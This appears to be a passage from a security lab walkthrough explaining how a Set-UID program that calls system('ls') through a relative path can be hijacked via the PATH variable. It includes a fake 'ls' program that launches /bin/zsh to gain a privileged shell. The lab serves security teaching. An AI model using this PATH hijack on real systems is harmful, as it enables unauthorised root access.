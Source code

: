 
### 2.6 Task 6: The PATH Environment Variable and Set-UIDPrograms

Because of the shell program invoked, calling `system()` within a `Set-UID` program is quite dangerous. This is because the actual behavior of the shell program can be affected by environment variables, such as `PATH`; these environment variables are provided by the user, who may be malicious. By changing these variables, malicious users can control the behavior of the `Set-UID` program. In `Bash`, you can change the `PATH` environment variable in the following way (this example adds the directory `/home/seed` to the beginning of the `PATH` environment variable):

```
$ export PATH=/home/seed:$PATH
```

The `Set-UID` program below is supposed to execute the `/bin/ls` command; however, the programmer only uses the relative path for the `ls` command, rather than the absolute path:

```
int main()
{
    system("ls");
    return 0;
}
```

**Step 1**. Create a file using the below command, which will list out all the files and folders in the calendar folder with root privileges.

```
$ sudo nano ls.c
```

**Step 2**. Upon the opening of the nano editor , copy and paste the below provided program in the editor.

```
#include <stdio.h>
#include <stdlib.h>
int main()
{
	printf("My malicious ls program is called!\n");
    system("/bin/zsh");
	return 0;
}
```

![Copy Paste ls.c program in Nano editor](./media/task6-step2-lsc-file-nano-editor.png)
